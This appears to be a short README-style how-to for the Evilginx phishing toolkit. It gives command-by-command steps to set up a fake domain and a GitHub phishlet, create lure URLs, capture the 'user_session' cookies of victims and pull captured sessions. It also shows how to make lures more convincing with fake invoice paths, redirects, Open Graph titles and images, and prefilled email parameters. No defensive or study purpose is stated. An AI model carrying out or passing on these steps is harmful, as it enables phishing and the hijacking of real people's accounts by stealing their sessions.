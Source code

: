 # Evilginx
https://altcodeunicode.com/alt-codes-for-french-letters-with-accents-or-diacritics/
<div>
0.To capure session Cookies : 
		` set cookies always --> keys: ['user_session:always']`

1.Setup domain
		`config domain fake.com/custom domain`

2.config IPv4
		`config ipv4 127.0.0.1`

3.set phishlet hostname
		`phishlets hostname github github.io.fake.com`
4.Enable Phishlet
		`phishlets enable github `

5.Optinal(Dev mode\Local Mode)
		`phishlets get-hosts github`

		127.0.0.1 github.io.fake.com
		127.0.0.1 api.github.io.fake.com
		127.0.0.1 github.github.io.fake.com
		SET THIS TO /ETC/HOSTS 

6.Create Lures
		`lures create github`

7.List all lures
		`lures`

8.Get the Lures URLs
		`lures get-urls 0 (id .i.e 0)`

** `For CA Certi search this  %USERPROFILE%  and install ca.certi`

9.Get Cookies/Sessions
		` sessions Id`


*********************************************************************************\
## Personalizing Lures
1.Edit Lures
	`lures edit 0(id) path /download/invoice/12342345`

2.Edit hostname
 	`lures edit 0 hostname thisismyrealwebsite.fake.com`

## Redirect URl
1.Redirect url
	`lures edit 0 redirect_url https://abcd.com/`

 
 
 2.Set Title name  and Images 
	- We can change `og_title ,og_desc,og_image,og_url`
   		`lures edit 0 og_title abccwrfgg_title`

3.Custom Parameter
	`lures get-url 0 email=abc@robin.com name=robin`

